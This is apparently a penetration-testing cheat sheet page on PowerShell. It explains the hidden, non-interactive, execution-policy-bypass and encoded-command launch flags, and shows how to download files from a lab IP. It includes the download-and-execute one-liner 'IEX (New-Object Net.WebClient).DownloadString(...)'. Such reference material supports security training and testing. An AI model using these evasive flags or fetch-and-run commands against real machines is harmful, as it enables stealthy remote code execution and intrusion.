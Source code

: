 ## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.

## Download files

*   Invoke-WebRequest http://`(IP)`:(PORT)/(FILE) -Outfile (Outputfile)

    * Invoke-WebRequest -URI http://192.168.1.52:8000/test.txt -Outfile Downloaded.txt



![](<../.gitbook/assets/image (661).png>)

* "IEX (New-Object Net.WebClient).DownloadString('URL')"
  * IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.52:8000/test.txt')

## General

**PowerShell Extensions**

* .ps1 - Executable script
* .psd1 - Details contents of the Powershell modules in a table of key/value pairs
* .psm1 - Powershell module file

### List Domain Controllers

```
netdom query DC
```

### View command history

```
Get-Histtory # Powershell
doskey /history # CMD
```

### Listing the Contents of the File System
